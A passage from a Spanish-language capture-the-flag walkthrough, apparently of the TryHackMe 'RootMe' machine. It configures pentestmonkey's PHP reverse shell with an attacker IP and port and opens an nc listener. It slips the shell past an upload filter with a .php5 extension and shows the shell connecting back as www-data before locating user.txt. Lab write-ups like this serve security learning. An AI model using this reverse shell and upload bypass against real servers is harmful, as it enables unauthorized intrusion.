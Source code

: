 La imagen aparece en el panel de /uploads por lo que si que nos deja. El siguiente paso será descargarnos una php reverse shell. En mi caso lo he hecho desde <a href=https://pentestmonkey.net/tools/web-shells/php-reverse-shell> Pentest Monkey</a>

Una vez descargada modificamos el archivo .php, tanto el puerto, por ejemplo el 4444 como el valor $ip. **¡Debe ser tu IP!**

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '$MY-IP';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```
Desde la máquina atcante nos ponemos en escucha por el puerto 4444 con nc:

```bash
❯ nc -lnvp 4444
listening on [any] 4444 ...
```

Agregamos nuestra reverse shell con extension .php5 porque con php no nos deja y le damos a upload.

Nos dice que todo ha ido correcto y nos metemos en el panel de /uploads. Ahí se encunetra el archivo .php5

Lo ejecutamos estando en escucha y...

```bash
❯ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.8.79.39] from (UNKNOWN) [10.10.252.141] 55654
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 11:55:39 up  1:09,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Conseguimos acceso a la máquina víctima

# []($header-1)Escalada de privilegios

Buscamos un archivo en el sistema que se llame user.txt y lo abrimos

```bash
$ find / -type f -name user.txt 2>/dev/null
/var/www/user.txt
$ cat /var/www/user.txt
THM{???_???_?_?????}
```
